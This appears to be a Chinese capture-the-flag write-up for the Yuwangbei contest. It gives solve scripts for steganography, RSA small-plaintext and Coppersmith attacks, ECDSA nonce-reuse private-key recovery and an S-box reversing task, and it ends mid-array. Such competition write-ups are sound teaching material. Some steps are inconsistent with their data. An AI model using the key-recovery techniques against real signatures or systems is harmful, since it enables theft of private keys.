# 第十届御网杯网络安全大赛 WP


# 第十届御网杯网络安全大赛 WP

## MISC

### 签到题-损坏的压缩包

题目：

```python
Ymx1aQ==
```

直接base64解码，在包裹一个 flag

flag：flag{blui}

### 幻影

> 题目内容：最近我们截获了10个看似相同的加密文件，仔细分析后发现，这些文件其实都使用了相同的隐藏手法——只是内容略有差异。你能从每个文件中提取出真正的 flag 吗？  
> 题目难度：中级  
> 题目分类：MISC  
> 题目分值：250

思路：

给了一个 data.bin 文件，使用 010 观察一下 16 进制数据，



可以看到关键信息如下：

- Rar 头，可能是一个 rar 的压缩包，但这里不是，没啥用
- ​`REMEMBER: FLAG IS HIDDEN IN BASE64 PLUS XOR!`这句几乎是明牌，告诉我们真实链路是“Base64 之后再 XOR”，或者说有一段经过 Base64 编码、再经过 XOR 处理后的内容。
- 然后还一个假的 flag 没用
- 然后最后一个 base64 密文

```python
MDo3MS1nNzU0YjdhNXtjMGI1e2I1ZTV7bmc0MHtuNGUzN2Fmbm9gMzAr
```

然后进行base64 + xor 解密即可，一开始以为 key 是那段假的 flag 发现不是，然后爆破一下 单字节 key，找到 flag



exp：

```python
import base64
import re

s = "MDo3MS1nNzU0YjdhNXtjMGI1e2I1ZTV7bmc0MHtuNGUzN2Fmbm9gMzAr"
padded = s + "=" * ((4 - len(s) % 4) % 4)
raw = base64.b64decode(padded)

for key in range(256):
    out = bytes(b ^ key for b in raw)
    text = out.decode("latin1", errors="ignore")
    if re.search(r"flag\{[0-9a-fA-F\-]+\}", text):
        print(hex(key), text)
```

flag：flag{1acb4a7c-5f4c-4c3c-81bf-8b3ea70896ef}

### 迷宫

> 题目内容：攻击者将关键凭证以“迷宫”形式隐藏在多个压缩包中，需逐层解压并提取最内层数据。 请分析任意一个附件，还原出原始凭证，并提交 flag。 提示：flag 格式为 flag{******}。  
> 题目难度：中级  
> 题目分类：MISC  
> 题目分值：250

思路：

有个 vault.bin，也就压缩了几层，手解压一下。内容如下

```python
YTZkNDI0NTM2NTZmMzQwNThiYzRkZDRhZmFlYmVlNGQ=34
```

把后面的 32 去掉 然后 base64 解码一下

flag：flag{a6d42453656f34058bc4dd4afaebee4d}

### 像素中的秘密

> 题目内容：从每张图中提取隐藏的 flag  
> 题目难度：高级  
> 题目分类：MISC  
> 题目分值：350

思路：

​`PNG`​ 的结构是分块的，正常png图片格式会在 `IEND`​ 这个结束块之后彻底结束。按规范 IEND 后面 4 字节 CRC 之后整个文件就该结束，IEND 块尾在 offset 181，但文件总长 245。**也就是说 IEND 之后多了 64 字节附加数据**。



提取出来

```python
0000000069cb3445d5dd713d5d0e34cec22eb9484e1bba9045ffd4bb0c11026cb206bcc5cb28dc03d1ace75dedc106ad28679a31dc8b6ef5d0ef82f90493d63d
```

前 4 字节是 `\x00\x00\x00\x00`​，剩下 60 字节看起来高熵随机。乍一看像 PNG chunk header（4 字节长度\=0 + 4 字节类型），但 `69cb3445` 不是合法 ASCII chunk type，crc 也对不上，这条路堵死。

那这 64 字节到底是什么？写脚本试了一圈：

- 当 IV+CT 跑 AES-CBC，已知 LCG 的所有常用 key 都不出 ASCII
- 当 ChaCha20、RC4 keystream，无果
- 把它当 8 个 64-bit 整数、4 个 128-bit 整数推 LCG 关系，差分 gcd 都得到 m\=1，没意义

接着看 `appended[4:8] = 69cb3445`​ 这 4 字节：高熵但是孤立，前后没有上下文相关性。**这非常像一个 32-bit 的 seed**。如果这是 LCG 的 seed，那 `appended[8:]` 共 56 字节就是用 LCG keystream 加密过的密文。

按这个假设跑一次 Numerical Recipes 经典 LCG：

```python
import string

# IEND chunk 后附加的 64 字节(用 hex 字符串硬编码,免读 PNG 文件)
appended_hex = '0000000069cb3445d5dd713d5d0e34cec22eb9484e1bba9045ffd4bb0c11026cb206bcc5cb28dc03d1ace75dedc106ad28679a31dc8b6ef5d0ef82f90493d63d'
appended = bytes.fromhex(appended_hex)  # 关键: 先转成 bytes

seed = int.from_bytes(appended[4:8], 'big')   # 0x69cb3445
ct = appended[8:]                              # 56 字节密文

# Numerical Recipes LCG
a, c_param, m = 1664525, 1013904223, 2**32
state = seed
ks = bytearray()
for _ in range(len(ct)):
    state = (a * state + c_param) % m
    ks.append(state & 0xff)

pt = bytes(x ^ y for x, y in zip(ct, ks))
print(pt)  # b'5bctImRCJiCYrptEu06bhb4qjQvdGSBfQsU4YB'
```

发现能够解出来一段字符，并且都在 `[0-9a-zA-Z]` 中，满足 base62 特征

```python
5bctImRCJiCYrptEu06bhb4qjQvdGSBfQsU4YB
```

最后解码成功的码表是下面这个，不是默认的

```python
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
```



exp：

```python
import string

with open('image_09.png', 'rb') as f:
    data = f.read()

# IEND chunk 体长 0 + 'IEND' 4字节 + CRC 4字节,后面是附加数据
appended = data[data.find(b'IEND') + 8:]
seed = int.from_bytes(appended[4:8], 'big')
ct = appended[8:]

# Numerical Recipes LCG
a, c_param, m = 1664525, 1013904223, 2**32
state = seed
ks = bytearray()
for _ in range(len(ct)):
    state = (a * state + c_param) % m
    ks.append(state & 0xff)

pt = bytes(x ^ y for x, y in zip(ct, ks)).rstrip(b'\x00')

# 标准 base62 解码: 字符表 0-9a-zA-Z
BASE62 = string.digits + string.ascii_lowercase + string.ascii_uppercase
n = 0
for ch in pt.decode():
    n = n * 62 + BASE62.index(ch)
flag = n.to_bytes((n.bit_length() + 7) // 8, 'big')
print(flag.decode())
```

flag：flag{known_plaintext_attack}

## CRYPTO

### BabyRSA

> 题目内容：RSA is safe... right?
>
> 题目难度：初级
>
> 题目分类：CRYPTO
>
> 题目分值：150
>
> 题目附件：BabyRSA5.zip

题目：

```python
from Crypto.Util.number import bytes_to_long, getPrime
from secret import flag

m = bytes_to_long(flag)
e = 3

p = getPrime(512)
q = getPrime(512)
n = p * q

c = pow(m, e, n)

print(f"n = {n}")
print(f"e = {e}")
print(f"c = {c}")
```

```python
n = 146456207485830767914514765334605396036642227204228987708446660890050815487128006715913622157128235248935655578151481827177840917052845172511421469547232732441806965854703621986999520482471596435061983380595175269092940745113495911485402820490898305634251135388587459830251350617359231575313676293073142199273
e = 3
c = 2217344750798531670826905933197717306478038649111300599282001715469497738630239634028205075519404548701756318035023919662152908861350532333135725865746366678724860476714032941272817671989466245205318687633276948181351107062398131366447344653395924217620196185525247507602021
```

思路：

很明显低加密指数攻击，但是尝试了一下好像不是，最后发现是小明文攻击

本题满足：

$$
c \equiv m^3 \pmod{n}
$$

如果明文足够短时，进一步满足：

$$
m^3 < n
$$

那么模约化并不会真正起作用，于是直接得到：

$$
c = m^3
$$

此时明文恢复就极其简单，只需要对 `c` 开整数三次方根即可：

$$
m = \sqrt[3]{c}
$$

随后再把整数 `m` 转回字节串，就是原始 flag。所以可以想尝试一下开 3 次根

exp：

```python
import gmpy2
from Crypto.Util.number import long_to_bytes

c = 2217344750798531670826905933197717306478038649111300599282001715469497738630239634028205075519404548701756318035023919662152908861350532333135725865746366678724860476714032941272817671989466245205318687633276948181351107062398131366447344653395924217620196185525247507602021
m, exact = gmpy2.iroot(c, 3)
print(exact)
print(long_to_bytes(int(m)))
```

flag：flag{62b25772f8b89f180e19a26e2cebb997}

### ECDSA nonce 重用

> 题目内容：我们截获了某平台签发的 10 组 ECDSA 签名数据，每组包含： 同一个公钥 两条不同消息及其对应的 ECDSA 签名 安全研究员发现，该平台在签名时错误地重复使用了相同的随机数（nonce）k。 请利用这一漏洞，恢复出原始私钥，并提交对应的 flag。 每个压缩包 otp_XX.zip 中包含一个 challenge.json 文件，格式如下： { "public_key_x": "...", "public_key_y": "...", "message1": "57656c636f6d6520746f2074686520435446206368616c6c656e676521", "message2": "506c65617365207265636f766572207468652073656372657420666c61672e", "signature1_r": 123456..., "signature1_s": 789012..., "signature2_r": 123456..., // 注意：与 signature1_r 相同！ "signature2_s": 345678..., "curve": "SECP256k1" } Flag 格式：flag{ecdsa_nonce_reuse_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}  
> 题目难度：中级  
> 题目分类：CRYPTO  
> 题目分值：300

题目：

```json
{
  "public_key_x": 32705917123514219341338617660484206640931153359983820740371346153059239196079,
  "public_key_y": 105378443164603096012683299765654240024574096995097153500104210029875824846381,
  "message1": "57656c636f6d6520746f2074686520435446206368616c6c656e676521",
  "message2": "506c65617365207265636f766572207468652073656372657420666c61672e",
  "signature1_r": 94623402518413909312520040768506335998059003535055968639873561536153319752130,
  "signature1_s": 82521546031702239459209775495701991205847140508758348861512396876916530234865,
  "signature2_r": 94623402518413909312520040768506335998059003535055968639873561536153319752130,
  "signature2_s": 91656747343497518279391803775194962309455573840630346612715164937166274087869,
  "curve": "SECP256k1"
}
```

思路：

分析一下每个值：

- ​`public_key_x`​ / `public_key_y`​：固定公钥 `Q = d * G`​ 的两个仿射坐标。题目要求恢复出 `d`。
- ​`message1`​：hex 解码是 `Welcome to the CTF challenge!`。
- ​`message2`​：hex 解码是 `Please recover the secret flag.`。
- ​`signature1_r`​ 与 `signature2_r`​：两个签名的 `r`​ 字段一模一样。这是题目最关键的明牌——`r = (k * G).x mod n`​，`r`​ 相同就直接说明 `k` 相同。
- ​`signature1_s`​ 与 `signature2_s`​：两条不同消息得到的 `s` 字段。
- ​`curve`​：标注 `SECP256k1`​，群阶 `n` 是公开常量。

到这里题目结构已经完全明朗：同一私钥 `d`​、同一 nonce `k`​、两条不同消息、两个不同的 `s`。直接落到 nonce reuse 标准攻击模型。

**ECDSA 签名公式回顾**

ECDSA 签名一对 `(r, s)`​ 的生成方式如下，下面所有运算都在群阶 `n` 下做：

$$
r = (k \cdot G)_x \bmod n
$$

$$
s = k^{-1} \cdot (h + r \cdot d) \bmod n
$$

其中：

- ​`G` 是椭圆曲线的基点
- ​`k` 是签名时一次性的随机数（nonce）
- ​`d` 是私钥
- ​`h` 是消息哈希值的整数表示，标准做法是把消息送进 SHA-256，得到 32 字节再当大整数解释
- ​`n` 是群阶

题目里两个签名共享同一个 `k`，所以同时满足：

$$
s_1 = k^{-1} \cdot (h_1 + r \cdot d) \bmod n
$$

$$
s_2 = k^{-1} \cdot (h_2 + r \cdot d) \bmod n
$$

两式相减消掉 `r * d` 项：

$$
s_1 - s_2 = k^{-1} \cdot (h_1 - h_2) \bmod n
$$

立刻解出 `k`：

$$
k = (h_1 - h_2) \cdot (s_1 - s_2)^{-1} \bmod n
$$

​`k`​ 已知之后，把它代回 `s_1`​ 的定义就能解出 `d`：

$$
d = (s_1 \cdot k - h_1) \cdot r^{-1} \bmod n
$$

整个攻击不需要任何离散对数，全部是 `n` 下的乘法、减法和模逆。

**SECP256k1 群阶常量**

SECP256k1 是比特币使用的曲线，参数全部公开：

- 群阶：`n = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141`
- 基点 `G`​ 的 X 坐标：`0x79BE667EF9DCBBAC55A06295CE870B07029BFCDB2DCE28D959F2815B16F81798`
- 基点 `G`​ 的 Y 坐标：`0x483ADA7726A3C4655DA4FBFC0E1108A8FD17B448A68554199C47D08FFB10D4B8`
- 域素数：`p = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEFFFFFC2F`

后续脚本要做两件事：在 `n`​ 下做模运算恢复私钥；在 `p`​ 下做点乘计算 `d * G`，与题目给的公钥比对来验证。

exp：

```python
import hashlib, json

data = json.loads(open("otp_05/challenge.json", "r", encoding="utf-8").read())

N = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141

r  = int(data["signature1_r"])
s1 = int(data["signature1_s"])
s2 = int(data["signature2_s"])
m1 = bytes.fromhex(data["message1"])
m2 = bytes.fromhex(data["message2"])

h1 = int.from_bytes(hashlib.sha256(m1).digest(), "big")
h2 = int.from_bytes(hashlib.sha256(m2).digest(), "big")

k = ((h1 - h2) * pow(s1 - s2, -1, N)) % N
d = ((s1 * k - h1) * pow(r, -1, N)) % N

print("k =", hex(k))
print("d =", hex(d))
```

拿到

```python
k = 0x7b15150fcb977c9427977cdcaf733b45020a134ed9a8325cf3f0d9e26a33d503
d = 0x25b7feda5c207eb13d6c860c736aad45835da29c0246d8ccd1196443b32f77ea
```

题目模板写的是：

```text
flag{ecdsa_nonce_reuse_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

模版有 32 个 x。**就是从私钥 32 字节里取 16 字节**。最自然的取法就是取私钥的前 16 字节，对应 `d` 的高 128 bit：

```python
d_full = hex(d)[2:].rjust(64, "0")
print("flag{ecdsa_nonce_reuse_" + d_full[:32] + "}")
```

输出：

```text
flag{ecdsa_nonce_reuse_25b7feda5c207eb13d6c860c736aad45}
```

提交即通过。

exp：

```python
import hashlib
import json
from pathlib import Path

DATA_PATH = Path(__file__).resolve().parent / "otp_05" / "challenge.json"
data = json.loads(DATA_PATH.read_text(encoding="utf-8"))

N  = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141
P  = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEFFFFFC2F
GX = 0x79BE667EF9DCBBAC55A06295CE870B07029BFCDB2DCE28D959F2815B16F81798
GY = 0x483ADA7726A3C4655DA4FBFC0E1108A8FD17B448A68554199C47D08FFB10D4B8

r  = int(data["signature1_r"])
s1 = int(data["signature1_s"])
s2 = int(data["signature2_s"])
m1 = bytes.fromhex(data["message1"])
m2 = bytes.fromhex(data["message2"])

h1 = int.from_bytes(hashlib.sha256(m1).digest(), "big")
h2 = int.from_bytes(hashlib.sha256(m2).digest(), "big")

k = ((h1 - h2) * pow(s1 - s2, -1, N)) % N
d = ((s1 * k - h1) * pow(r, -1, N)) % N

def add(P1, P2):
    if P1 is None: return P2
    if P2 is None: return P1
    x1, y1 = P1; x2, y2 = P2
    if x1 == x2 and (y1 + y2) % P == 0: return None
    if P1 == P2:
        m = (3 * x1 * x1) * pow(2 * y1, -1, P) % P
    else:
        m = (y2 - y1) * pow(x2 - x1, -1, P) % P
    x3 = (m * m - x1 - x2) % P
    y3 = (m * (x1 - x3) - y1) % P
    return (x3, y3)

def mul(k, Pt):
    res = None
    while k > 0:
        if k & 1: res = add(res, Pt)
        Pt = add(Pt, Pt)
        k >>= 1
    return res

Q = mul(d, (GX, GY))
assert Q[0] == int(data["public_key_x"])
assert Q[1] == int(data["public_key_y"])

d_full = hex(d)[2:].rjust(64, "0")
print(f"flag{{ecdsa_nonce_reuse_{d_full[:32]}}}")
```

flag：flag{ecdsa_nonce_reuse_25b7feda5c207eb13d6c860c736aad45}

### ScatterRSA

> 题目内容：同一份秘密被分散到了三个不同的信道中传输，每个信道都加了不同的噪声……但真的安全吗？  
> 题目难度：中级  
> 题目分类：CRYPTO  
> 题目分值：300

题目：

```python
from secret import flag
from Crypto.Util.number import *
import random

m = bytes_to_long(flag)
e = 3

print(f"e = {e}")

for i in range(3):
    p = getPrime(512)
    q = getPrime(512)
    n = p * q
    a = random.getrandbits(128) | (1 << 127)
    b = random.getrandbits(256) | (1 << 255)
    c = pow(a * m + b, e, n)

    print(f"n{i+1} = {n}")
    print(f"a{i+1} = {a}")
    print(f"b{i+1} = {b}")
    print(f"c{i+1} = {c}")

```

```python
e = 3
n1 = 126774665513582564935779947848112944042866830930386746647049666435351291330363277973504769070717270384918856659731429138448400894026148440040972517425095971720377658415323820199696435049161025722752273999752002607726158962795131810539085538028128300999024905962969559687634444599009377284059294492202511988583
a1 = 175903979887816246876356088612877319410
b1 = 59705743144529282757272333197046269993276374069054508600756822586872082005844
c1 = 114262119864509431346121120970947481750551315429790662801315178080565717117872668246877796637058712718614455304105521643727499478201307907355658898017491502458960278657768212931383905075707940051389794825601073658821756701887219530473750910067523371364456978268815730993536658229011521575387453057859902444454
n2 = 70862262803652951029471167327459018162264552485499007239610991658396601057528590088505245176262062604357553463163385007687512357572559472046119433942494184282050872082606464568052022570822998083784884995392364509080335708545563341794801636163581722900846176728502454911983739927772601886561460593048185687203
a2 = 301719458450443224852278987028377807488
b2 = 92311040911025143678098812240602640192411760692400810689123510631123371516285
c2 = 8833389123931731591059528233848985447409962508343809588391731341718400251971539684636973861119858416925952486081118029147656907612129311419904772986323035935009698804269211939105961137422609248844476258675729412784528525207821156363705684919764942510002334686827157313261905756873200063349100762893947887591
n3 = 120071317965042617568190006371029029233790740109504540453092705398120339251246167476421080962635676358200240793383466496024477133703734110558980134689369104320947525685865376960724724004435060780565736883322619654190628091196798331871989987776206829554797194267770641969089191341756492137922472356080975008567
a3 = 333880429510144778940208404270533555799
b3 = 108897046763508168553507370420736166320440160223398740068920661803571394990879
c3 = 116314130437638492701509764225641858681706857317644583975932884340423123526554338050568656741244165065736316734981343048948722190543874271698275609383172252380102857876518231127121076392372468263567480815184048543494020646478816948915843457908952005629687043937593022214708473773721934316015838678510386472809

```

思路：

三组数据其实对应三条同结构的同余方程：

$$
(a_1 m + b_1)^3 \equiv c_1 \pmod{n_1}
$$

$$
(a_2 m + b_2)^3 \equiv c_2 \pmod{n_2}
$$

$$
(a_3 m + b_3)^3 \equiv c_3 \pmod{n_3}
$$

如果只看单组数据：

$$
(a m + b)^3 \equiv c \pmod n
$$

这并不能直接开三次方，因为右边是在模 $n$ 下成立，且 $a m + b$ 明显已经被混进了模运算里。正常的低指数广播攻击也不适用，因为那类题通常要求加密的是同一个明文 $m$，这里却是三个不同的线性变形：

- 第一组是 $a1*m+b1$
- 第二组是 $a2*m+b2$
- 第三组是 $a3*m+b3$

所以这题的真正做法不是直接广播攻击，而是把三组同余条件合并成一个“以 $m$ 为未知数的模方程”，再对这个未知数做单变量 small root。

**把三组方程合并成一个多项式**

令

$$
f_1(x) = (a_1 x + b_1)^3 - c_1
$$

$$
f_2(x) = (a_2 x + b_2)^3 - c_2
$$

$$
f_3(x) = (a_3 x + b_3)^3 - c_3
$$

那么真实的明文整数 $m$ 一定满足：

$$
f_1(m) \equiv 0 \pmod{n_1}
$$

$$
f_2(m) \equiv 0 \pmod{n_2}
$$

$$
f_3(m) \equiv 0 \pmod{n_3}
$$

接下来要做的事，就是把这三条关于不同模数的条件，合并成一条关于总模数 $N = n_1 n_2 n_3$ 的条件。

这里最自然的方法就是对多项式的每一个系数分别做 CRT。因为三个多项式的次数都是 3，所以最终只会涉及四个系数：

$$
f_i(x)=\alpha_{i,0}+\alpha_{i,1}x+\alpha_{i,2}x^2+\alpha_{i,3}x^3
$$

对每一个幂次 $x^k$，把三个模数下的系数用 CRT 合并，得到一个新的系数 $A_k$。这样我们就得到一个新的三次多项式：

$$
F(x)=A_0+A_1x+A_2x^2+A_3x^3 \pmod N
$$

由于 `m` 同时满足三组原始方程，所以它也必然满足：

$$
F(m)\equiv 0 \pmod N
$$

这一步做完后，题目就从“三组线性扰动后的 RSA”转化成了“一元模方程的小根问题”。

exp：

```python
#!/usr/bin/env sage
from Crypto.Util.number import long_to_bytes

e = 3

n1 = 126774665513582564935779947848112944042866830930386746647049666435351291330363277973504769070717270384918856659731429138448400894026148440040972517425095971720377658415323820199696435049161025722752273999752002607726158962795131810539085538028128300999024905962969559687634444599009377284059294492202511988583
a1 = 175903979887816246876356088612877319410
b1 = 59705743144529282757272333197046269993276374069054508600756822586872082005844
c1 = 114262119864509431346121120970947481750551315429790662801315178080565717117872668246877796637058712718614455304105521643727499478201307907355658898017491502458960278657768212931383905075707940051389794825601073658821756701887219530473750910067523371364456978268815730993536658229011521575387453057859902444454

n2 = 70862262803652951029471167327459018162264552485499007239610991658396601057528590088505245176262062604357553463163385007687512357572559472046119433942494184282050872082606464568052022570822998083784884995392364509080335708545563341794801636163581722900846176728502454911983739927772601886561460593048185687203
a2 = 301719458450443224852278987028377807488
b2 = 92311040911025143678098812240602640192411760692400810689123510631123371516285
c2 = 8833389123931731591059528233848985447409962508343809588391731341718400251971539684636973861119858416925952486081118029147656907612129311419904772986323035935009698804269211939105961137422609248844476258675729412784528525207821156363705684919764942510002334686827157313261905756873200063349100762893947887591

n3 = 120071317965042617568190006371029029233790740109504540453092705398120339251246167476421080962635676358200240793383466496024477133703734110558980134689369104320947525685865376960724724004435060780565736883322619654190628091196798331871989987776206829554797194267770641969089191341756492137922472356080975008567
a3 = 333880429510144778940208404270533555799
b3 = 108897046763508168553507370420736166320440160223398740068920661803571394990879
c3 = 116314130437638492701509764225641858681706857317644583975932884340423123526554338050568656741244165065736316734981343048948722190543874271698275609383172252380102857876518231127121076392372468263567480815184048543494020646478816948915843457908952005629687043937593022214708473773721934316015838678510386472809

PR.<x> = PolynomialRing(ZZ)

f1 = (a1 * x + b1)^e - c1
f2 = (a2 * x + b2)^e - c2
f3 = (a3 * x + b3)^e - c3

mods = [n1, n2, n3]
polys = [f1, f2, f3]
N = n1 * n2 * n3

g = 0
for i in range(4):
    residues = [ZZ(p[i]) % m for p, m in zip(polys, mods)]
    coeff = crt(residues, mods)
    g += ZZ(coeff) * x^i

R.<x> = PolynomialRing(Zmod(N), implementation="NTL")
f = R(g).monic()
m = ZZ(f.small_roots(X=2^400, beta=0.34, epsilon=1/32)[0])
print(long_to_bytes(int(m)))
```



flag：flag{daae034a444159b8d3a0be007da01a5e}

### ECB Pattern Leakage

> 题目内容：对每个附件进行解密，并输出原始flag。  
> 题目难度：中级  
> 题目分类：CRYPTO  
> 题目分值：300

思路：

赛后不知道其他人怎么拿到的 key = VERY_SECRET_KEY!，然后解个 aes 就出来了



flag：flag{plsseo94uzk6j3vupiczzplt2cnbz2xb}

## REVERSE

### rerere

题目：

> 题目内容：re re re re re re  
> 题目难度：初级  
> 题目分类：REVERSE  
> 题目分值：150

思路：

idapro 打开，shift + f12 定位关键字符，双击一下



然后跟踪到这个函数 f5 反汇编一下



大概分析一下这个函数，就是最后输入的 flag 必须同时满足两个条件



然后再跟踪一下这个函数 sub_140001480(Buffer)



最关键的就是下面这行代码

```c
while ( byte_140004060[*(p_Buffer + v2) ^ byte_140004048[v2 & 7]] == byte_140004020[v2] )
```

表示输入的第 v2 个字符，也就是：`input[i]`

```c
*(p_Buffer + v2)
```

这里 v2 & 7 等价于 v2 % 8，因为 7 的二进制是 00000111。

```c
byte_140004048[v2 & 7]
```

所以 byte_140004048 是一个 8 字节循环 key：

```c
key[i % 8]
input[i] ^ key[i % 8]
```

先把输入字符和循环 key 异或。

```c
byte_140004060[input[i] ^ key[i % 8]]
```

异或结果作为下标，去查 byte_140004060。这个表大概率是一个 S-box 或置换表。

最后和：

```c
byte_140004020[i]
```

比较。byte\_140004020 是目标数组，长度至少为 38，每一位保存期望值。

所以每一位满足：

```c
byte_140004060[input[i] ^ byte_140004048[i % 8]] == byte_140004020[i]

if ( ++v2 == a2 )
  return 1;
```

如果当前字符通过，就检查下一位；当 i \=\= len，说明所有字符都过了，返回真。伪代码写出来就是：

```c
int check(unsigned char *input, int len) {
    unsigned char *target = (unsigned char *)0x140004020;
    unsigned char *key    = (unsigned char *)0x140004048;
    unsigned char *sbox   = (unsigned char *)0x140004060;

    for (int i = 0; i < len; i++) {
        unsigned char x = input[i] ^ key[i & 7];
        if (sbox[x] != target[i]) {
            return 0;
        }
    }
    return 1;
}
```

对应的数学关系是：

$$
sbox[input_i \oplus key_{i \bmod 8}] = target_i
$$

因为 `sbox` 是 256 字节表，可以直接建立反向表。只要找到满足 $sbox[x] = target_i$ 的 `x`，就能反推出输入字节：

$$
input_i = sbox^{-1}(target_i) \oplus key_{i \bmod 8}
$$

然后提取三组关键常量的数据 byte_140004060[256]，直接双击这个函数即可



```c
[0xC2, 0x23, 0x97, 0x49, 0x83, 0xF6, 0xD3, 0xA7, 0xEB, 0xBF, 0x78, 0xC3, 0x29, 0x56, 0xD2, 0x1A, 0x13, 0xBC, 0x21, 0x6A, 0x37, 0x8E, 0x5F, 0x0C, 0xB4, 0x46, 0xDE, 0xE4, 0x6C, 0xA2, 0x66, 0x30, 0x0F, 0xA4, 0xBB, 0x8C, 0x09, 0x4B, 0x3D, 0x32, 0x42, 0x55, 0x2D, 0x4F, 0xF9, 0x77, 0x1B, 0x74, 0x1F, 0x71, 0x7B, 0x9D, 0x73, 0xC4, 0xAB, 0xD0, 0xF3, 0xC1, 0x88, 0x07, 0xDC, 0xCE, 0xEF, 0xC0, 0x72, 0x4A, 0x27, 0x81, 0x9B, 0xEE, 0xC7, 0x28, 0x26, 0x5A, 0x94, 0x54, 0x70, 0xD1, 0xE9, 0xC8, 0x98, 0x36, 0x91, 0x41, 0xB8, 0x3A, 0x79, 0x0A, 0x08, 0xE5, 0xAF, 0x80, 0x24, 0xAE, 0x00, 0x19, 0xCC, 0x7A, 0xF7, 0x51, 0x7D, 0x69, 0xEC, 0x03, 0x65, 0x25, 0x1C, 0x01, 0xF5, 0xE6, 0xBD, 0xD9, 0x59, 0xFE, 0x92, 0xB0, 0x10, 0x6F, 0xF0, 0xE3, 0x9F, 0xAD, 0x84, 0xF4, 0xA5, 0x33, 0x35, 0x48, 0x53, 0xB1, 0xE0, 0xD8, 0x05, 0x38, 0x18, 0x68, 0xA9, 0x14, 0xC6, 0x3F, 0x61, 0x8A, 0x31, 0x3B, 0xBA, 0x2B, 0x4E, 0xE2, 0x57, 0x9A, 0xF1, 0xEA, 0x64, 0x7E, 0xA0, 0x93, 0xB6, 0xDA, 0x60, 0x2E, 0x1D, 0x5B, 0x82, 0x34, 0x6D, 0xFC, 0xCF, 0x7F, 0xE7, 0x96, 0x67, 0x43, 0x06, 0x44, 0xC9, 0x4C, 0x40, 0xDB, 0xFD, 0x4D, 0xB5, 0xED, 0x39, 0x2C, 0xB3, 0x17, 0x9E, 0xCD, 0xFA, 0x6B, 0xCA, 0x87, 0x8F, 0x9C, 0x89, 0x0E, 0x63, 0x45, 0x86, 0xAA, 0x5E, 0x95, 0x16, 0xC5, 0xD5, 0x2F, 0xA1, 0xF8, 0x99, 0xFF, 0x3C, 0x0D, 0x3E, 0xD4, 0x04, 0x76, 0xD7, 0x47, 0x20, 0x8D, 0xDF, 0x5C, 0x7C, 0xA3, 0x1E, 0x8B, 0x15, 0xB9, 0xA8, 0xCB, 0x22, 0xA6, 0x52, 0xD6, 0xFB, 0x5D, 0xDD, 0xB2, 0x6E, 0xE8, 0xF2, 0xE1, 0x2A, 0x58, 0x62, 0x12, 0x11, 0x50, 0x75, 0xB7, 0xAC, 0x90, 0x0B, 0x85, 0x02, 0xBE]
```

byte_140004048[24]

```c
[0xB9, 0xCD, 0xCE, 0x30, 0xB8, 0x61, 0x4E, 0xAA, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
```

byte_140004020[40]

```c
[0xA3, 0x5B, 0x4C, 0x0A, 0x0E, 0xB8, 0xF4, 0xDA, 0x14, 0x75, 0x02, 0x3A, 0x8D, 0xE5, 0x77, 0xD5, 0xB1, 0x43, 0xAC, 0xA7, 0xB1, 0x49, 0xA5, 0x64, 0xD7, 0x96, 0x02, 0xA7, 0xB1, 0x79, 0x42, 0xB6, 0x53, 0x43, 0x43, 0x49, 0x5C, 0x6C, 0x00, 0x00]
```

exp：

```python
sbox = [0xC2, 0x23, 0x97, 0x49, 0x83, 0xF6, 0xD3, 0xA7, 0xEB, 0xBF, 0x78, 0xC3, 0x29, 0x56, 0xD2, 0x1A, 0x13, 0xBC, 0x21, 0x6A, 0x37, 0x8E, 0x5F, 0x0C, 0xB4, 0x46, 0xDE, 0xE4, 0x6C, 0xA2, 0x66, 0x30, 0x0F, 0xA4, 0xBB, 0x8C, 0x09, 0x4B, 0x3D, 0x32, 0x42, 0x55, 0x2D, 0x4F, 0xF9, 0x77, 0x1B, 0x74, 0x1F, 0x71, 0x7B, 0x9D, 0x73, 0xC4, 0xAB, 0xD0, 0xF3, 0xC1, 0x88, 0x07, 0xDC, 0xCE, 0xEF, 0xC0, 0x72, 0x4A, 0x27, 0x81, 0x9B, 0xEE, 0xC7, 0x28, 0x26, 0x5A, 0x94, 0x54, 0x70, 0xD1, 0xE9, 0xC8, 0x98, 0x36, 0x91, 0x41, 0xB8, 0x3A, 0x79, 0x0A, 0x08, 0xE5, 0xAF, 0x80, 0x24, 0xAE, 0x00, 0x19, 0xCC, 0x7A, 0xF7, 0x51, 0x7D, 0x69, 0xEC, 0x03, 0x65, 0x25, 0x1C, 0x01, 0xF5, 0xE6, 0xBD, 0xD9, 0x59, 0xFE, 0x92, 0xB0, 0x10, 0x6F, 0xF0, 0xE3, 0x9F, 0xAD, 0x84, 0xF4, 0xA5, 0x33, 0x35, 0x48, 0x53, 0xB1, 0xE0, 0xD8, 0x05, 0x38, 0x18, 0x68, 0xA9, 0x14, 0xC6, 0x3F, 0x61, 0x8A, 0x31, 0x3B, 0xBA, 0x2B, 0x4E, 0xE2, 0x57, 0x9A, 0xF1, 0xEA, 0x64, 0x7E, 0xA0, 0x93, 0xB6, 0xDA, 0x60, 0x2E, 0x1D, 0x5B, 0x82, 0x34, 0x6D, 0xFC, 0xCF, 0x7F, 0xE7, 0x96, 0x67, 0x43, 0x06, 0x44, 0xC9, 0x4C, 0x40, 0xDB, 0xFD, 0x4D, 0xB5, 0xED, 0x39, 0x2C, 0xB3, 0x17, 0x9E, 0xCD, 0xFA, 0x6B, 0xCA, 0x87, 0x8F, 0x9C, 0x89, 0x0E, 0x63, 0x45, 0x86, 0xAA, 0x5E, 0x95, 0x16, 0xC5, 0xD5, 0x2F, 0xA1, 0xF8, 0x99, 0xFF, 0x3C, 0x0D, 0x3E, 0xD4, 0x04, 0x76, 0xD7, 0x47, 0x20, 0x8D, 0xDF, 0x5C, 